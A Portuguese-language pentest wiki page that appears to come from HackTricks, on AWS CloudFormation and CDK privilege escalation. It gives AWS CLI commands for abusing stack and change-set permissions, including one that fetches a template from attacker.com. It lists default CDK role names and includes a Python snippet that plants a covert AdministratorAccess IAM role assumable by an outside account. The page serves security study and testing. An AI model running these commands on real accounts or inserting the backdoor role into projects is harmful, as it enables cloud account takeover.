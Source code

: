 # AWS - Cloudformation Privesc

{{#include ../../../../banners/hacktricks-training.md}}

## cloudformation

Para mais informações sobre cloudformation, consulte:

{{#ref}}
../../aws-services/aws-cloudformation-and-codestar-enum.md
{{#endref}}

### `iam:PassRole`, `cloudformation:CreateStack`

Um atacante com essas permissões **pode escalar privilégios** criando uma **pilha do CloudFormation** com um template personalizado, hospedado em seu servidor, para **executar ações sob as permissões de um papel especificado:**
```bash
aws cloudformation create-stack --stack-name <stack-name> \
--template-url http://attacker.com/attackers.template \
--role-arn <arn-role>
```
Na página a seguir, você tem um **exemplo de exploração** com a permissão adicional **`cloudformation:DescribeStacks`**:

{{#ref}}
iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md
{{#endref}}

**Impacto Potencial:** Privesc para o papel de serviço do cloudformation especificado.

### `iam:PassRole`, (`cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`)

Neste caso, você pode **abusar de uma pilha de cloudformation existente** para atualizá-la e escalar privilégios, como no cenário anterior:
```bash
aws cloudformation update-stack \
--stack-name privesc \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::91029364722:role/CloudFormationAdmin2 \
--capabilities CAPABILITY_IAM \
--region eu-west-1
```
A permissão `cloudformation:SetStackPolicy` pode ser usada para **dar a si mesmo a permissão `UpdateStack`** sobre uma pilha e realizar o ataque.

**Impacto Potencial:** Privesc para o papel de serviço do cloudformation especificado.

### `cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`

Se você tiver essa permissão, mas **sem `iam:PassRole`**, ainda pode **atualizar as pilhas** usadas e abusar dos **Papéis IAM que já estão anexados**. Verifique a seção anterior para um exemplo de exploração (apenas não indique nenhum papel na atualização).

A permissão `cloudformation:SetStackPolicy` pode ser usada para **dar a si mesmo a permissão `UpdateStack`** sobre uma pilha e realizar o ataque.

**Impacto Potencial:** Privesc para o papel de serviço do cloudformation já anexado.

### `iam:PassRole`,((`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

Um atacante com permissões para **passar um papel e criar & executar um ChangeSet** pode **criar/atualizar uma nova pilha do cloudformation e abusar dos papéis de serviço do cloudformation** assim como com o CreateStack ou UpdateStack.

A seguinte exploração é uma **variação da**[ **CreateStack one**](#iam-passrole-cloudformation-createstack) usando as **permissões ChangeSet** para criar uma pilha.
```bash
aws cloudformation create-change-set \
--stack-name privesc \
--change-set-name privesc \
--change-set-type CREATE \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::947247140022:role/CloudFormationAdmin \
--capabilities CAPABILITY_IAM \
--region eu-west-1

echo "Waiting 2 mins to change the stack"
sleep 120

aws cloudformation execute-change-set \
--change-set-name privesc \
--stack-name privesc \
--region eu-west-1

echo "Waiting 2 mins to execute the stack"
sleep 120

aws cloudformation describe-stacks \
--stack-name privesc \
--region eu-west-1
```
A permissão `cloudformation:SetStackPolicy` pode ser usada para **dar a si mesmo permissões de `ChangeSet`** sobre uma pilha e realizar o ataque.

**Impacto Potencial:** Privesc para funções de serviço do cloudformation.

### (`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

Isso é como o método anterior sem passar **funções IAM**, então você pode apenas **abusar das já anexadas**, apenas modifique o parâmetro:
```
--change-set-type UPDATE
```
**Impacto Potencial:** Privesc para o papel de serviço do cloudformation já anexado.

### `iam:PassRole`,(`cloudformation:CreateStackSet` | `cloudformation:UpdateStackSet`)

Um atacante poderia abusar dessas permissões para criar/atualizar StackSets para abusar de papéis de cloudformation arbitrários.

**Impacto Potencial:** Privesc para papéis de serviço do cloudformation.

### `cloudformation:UpdateStackSet`

Um atacante poderia abusar dessa permissão sem a permissão passRole para atualizar StackSets e abusar dos papéis de cloudformation anexados.

**Impacto Potencial:** Privesc para os papéis de cloudformation anexados.

## AWS CDK

O AWS cdk é um kit de ferramentas que permite aos usuários definir sua infraestrutura como código em linguagens com as quais já estão familiarizados, além de reutilizar facilmente seções. O CDK então converte o código de alto nível (ou seja, python) em templates de Cloudformation (yaml ou json).

Para usar o CDK, um usuário administrativo deve primeiro inicializar a conta, o que cria vários papéis IAM, incluindo o *papel exec*, que tem permissões \*/\*. Esses papéis seguem a estrutura de nomenclatura `cdk-<qualifier>-<name>-<account-id>-<region>`. A inicialização deve ser feita uma vez por região por conta.

Por padrão, os usuários do CDK não têm acesso para listar os papéis necessários para usar o CDK, o que significa que você precisará determiná-los manualmente. Se você comprometer a máquina de um desenvolvedor ou algum nó de CI/CD, esses papéis podem ser assumidos para conceder a si mesmo a capacidade de implantar templates CFN, usando o papel `cfn-exec` para permitir que o CFN implante quaisquer recursos, comprometendo totalmente a conta.

### Determinando os nomes dos papéis

Se você tiver `cloudformation:DescribeStacks`, os papéis estão definidos em uma pilha chamada `CDKToolkit`, e você pode extrair os nomes de lá.

Se você estiver em uma máquina que foi usada para construir e implantar projetos CDK, pode extrair os nomes de `cdk.out/manafest.json` no diretório raiz dos projetos.

Você também pode fazer uma boa suposição sobre quais são. `qualifier` é uma string adicionada aos papéis permitindo que várias instâncias da inicialização do CDK sejam implantadas ao mesmo tempo, no entanto, o valor padrão é codificado como `hnb659fds`.
```
# Defaults
cdk-hnb659fds-cfn-exec-role-<account-id>-<region>
cdk-hnb659fds-deploy-role-<account-id>-<region>
cdk-hnb659fds-file-publishing-role-<account-id>-<region>
cdk-hnb659fds-image-publishing-role-<account-id>-<region>
cdk-hnb659fds-lookup-role-<account-id>-<region>
```
### Adicionando código malicioso ao código-fonte do projeto

Se você pode escrever no código-fonte do projeto, mas não pode implantá-lo você mesmo (por exemplo, o desenvolvedor implanta o código via CI/CD, não a máquina local), você ainda pode comprometer o ambiente adicionando recursos maliciosos à pilha. O seguinte adiciona uma função IAM que pode ser assumida por uma conta de atacante a um projeto python CDK.
```python
class CdkTestStack(Stack):
def __init__(self, scope: Construct, construct_id: str, **kwargs) -> None:
super().__init__(scope, construct_id, **kwargs)

# ----------
# Some existing code.....
# ----------

role = iam.Role(
self,
"cdk-backup-role", # Role name, make it something subtle
assumed_by=iam.AccountPrincipal("1234567890"), # Account to allow to assume the role
managed_policies=[
iam.ManagedPolicy.from_aws_managed_policy_name("AdministratorAccess") # Policies to attach, in this case AdministratorAccess
],
)
```
## Referências

- [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)
- [https://github.com/aws/aws-cdk-cli/blob/main/packages/aws-cdk/lib/api/bootstrap/bootstrap-template.yaml](https://github.com/aws/aws-cdk-cli/blob/main/packages/aws-cdk/lib/api/bootstrap/bootstrap-template.yaml)

{{#include ../../../../banners/hacktricks-training.md}}
